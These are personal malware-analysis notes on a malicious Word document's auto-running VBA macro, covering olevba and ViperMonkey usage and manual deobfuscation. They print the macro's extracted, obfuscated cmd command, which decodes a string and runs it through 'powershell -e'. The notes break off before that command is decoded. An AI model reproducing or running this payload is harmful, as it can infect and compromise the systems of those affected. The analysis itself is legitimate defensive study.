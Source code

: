 # Analyze sample1.doc file

**Quick answers**

- What does it do?
- What steps does it take to do it?


## Steps

### Extract vb code and getting info using tools
- run olevba to get a quick overview and extract code
    -  `pipenv run olevba ./Sample1.doc` to extract vb code from doc file
    - Some info: 
        - runs automatically upon opening
        - is suspicious: might run an executable, various attempts to obfuscate detected
- run ViperMonkey
    - `./docker/dockermonkey.sh ~/reversing/Sample.doc` 
        - Deobfuscation did not work that well (or I did something wrong)
        - However, a shell command was extracted, which itself is obfuscated



### Further deobfuscation by hand
I copied the output of olevba into a text/vb file for further deobfuscation using visual studio code. (plus create a git repo so I can easily undo any changes)
    - making sure code is not accidentely executed (have syntax errors, outcomment some code)
    - rename functions
    - execute safe vb code (only string operations) in excel to get return string of a function, whose only purpose to return a string (I was a bit lazy)
    - realized that the the vb code basically just puts together a string which is then used to call the command line. That output I could also get from the ViperMonkey, so there is no need to further deobfuscate the vb code. 
    - however the command line code is obfuscated

`SOMEDUMMYTOPREVENTACCIDENTALEXECUTION   Cmd /V^:^oN /r  "^Se^T ^  ^ ^J^e^4=^A^AC^AgA^AI^A^AC^A^gAA^IA^ACA^g^AA^IAACA^g^AA^I^A^ACA^gA^A^I^A^AC^A^gAQ^fA0^H^A^7BA^aA^M^GA0BQ^YA^M^G^A9^BwOAs^GAhBQZAI^HAiB^w^OAs^EA^u^B^wdA^QC^A^gA^Q^b^AU^G^A^0^B^Q^S^A0C^AlBwa^A8G^A2Bg^bAk^EA^7^A^Q^K^A^sEA^u^B^wdA^QCAgAA^LA^sE^AL^B^g^S^A^QCAo^AQZA^wGApBgRA^QGA^hBwbA^w^G^AuB^w^d^A^8^G^A^E^B^gLA^E^FA^UBgeAQC^A7B^Q^e^A^I^HA0^B^w^e^A^kC^Ar^BgeAg^F^Ak^A^A^IA4GA^pB^A^IA^sEALB^g^SA^QCAoA^AaAMG^A^hBQZAI^HAvBg^Z^A^s^DAnAQZAg^H^Al^Bg^LAcCArAge^AcFAZ^B^AJAsCAn^AAXAcCAr^A^w^Y^A^kGAsB^gYA^U^HA^wB^gOAYH^Au^B^Q^ZAQC^A9Aw^S^A^4^GA3^B^AJ^A^s^DAnA^gM^Ak^DA^2A^wJ^AACA9A^A^IA^oHA^X^B^QW^AQCA7AQKAcC^A^ABwJ^A^gC^A0BQa^A^wG^A^wB^w^UA4CAn^A^QN^AU^F^AJBgV^A^wG^AUB^AdA8^EAv^A^Q^dA^IHA^u^A^AO^A^Q^D^A^yBQY^A4^G^A^p^BgYA^8C^Av^Ag^OA^AH^A^0B^A^d^A^gG^A^A^B^gQ^A^EG^AhBg^SA^QFAv^A^QZ^AQH^ApB^wc^Ac^G^AvB^AbA^8C^An^B^gcA8GA^uA^QaA^oG^AuB^QdA^gGA^zB^wLA8CA^6^A^AcA^Q^H^A0^B^Aa^AA^EA^H^B^g^SAYGA^X^BQe^AE^EA^1^A^AWA8CA0^B^QZ^A^4GA^uAw^Z^A^4^GAvB^A^b^Ak^GA^h^B^wZ^A8CAvA^gO^AA^H^A^0^BAd^Ag^GAAB^w^dAYD^AG^B^AV
A^UD^A^s^BwL^A^s^G^AkBgLA^g^HAl^BAb^AYG^A^u^BQ^a^A0GAk^BQ^YA^8C^Av^AgO^A^AH^A^0B^AdA^g^G^A^ABAV^Ag^E^AvA^QbA8G^AjBg^LA^A^HA^1BwbA^IHAnBwaAMGAvB^gc^A^EGAo^BAcAw^GAh^BwLA8C^A6^A^Ac^A^QH^A^0B^A^a^AcC^A^9^Awa^A^oH^A^Y^B^A^JA^s^DA^0B^gbA^U^G^Ap^BA^bA^M^E^A^iB^Q^Z^AcFA^uA^AdA^UG^A^O^BA^IA^Q^HAjB^Q^Z^Ao^G^A^iB^wb^A^0CA^3B^QZA^4GA^9AQ^UA^QF^A6B^A^J^ ^e^-^ ^l^l^e^hsr^e^wo^p&    ^foR /^L  %^B ^IN  (  ^  9^25^  ^  ^-^1 ^ ^0)  D^O s^E^t   ^OQR^J=!^OQR^J!!^J^e^4:~ %^B, 1!&& I^f %^B  ^LEQ ^0 Ca^L^l  %^OQR^J:^*OQRJ^!^=%   "    `


### Deobfuscate the command line code